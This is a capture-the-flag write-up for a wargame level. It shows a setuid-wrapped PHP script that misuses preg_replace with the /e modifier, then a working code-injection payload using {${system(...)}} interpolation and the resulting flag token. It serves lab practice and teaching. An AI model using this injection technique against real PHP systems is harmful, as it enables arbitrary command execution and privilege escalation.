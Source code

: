 ## writeup level06

When we log in as user level06, we can see 2 files in our home: `level06` and `level06.php`
```shell
$ ls -l level06
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
$ cat level06.php
```
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
The `level06` binary has again this suid bit, which enable execution as root owner `flag06`. \
After examining it with `strings` and a little `gdb`, we see it uses `execve` to call our script with `argv[1]` and `argv[2]`.
The php script calls `file_get_contents` with the first argument, and does some regex replacement stuff. The only one that interest us is the first replace: \
`preg_replace` is called with the `/e` modifier, which enables the interpolation of captured elements. \
Basically, it will replace all `[x ELEMENTS]` with `y("ELEMENTS")` after escaping the captured elements. \
In php, you can execute variable interpolation by using the `{${` syntax. So we can basically execute any php code we want inside the interpolation like so:
```shell
$ cat > /tmp/printflag <<EOF
[x {${system(getflag)}}]
EOF
$ ./level06 /tmp/printflag
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

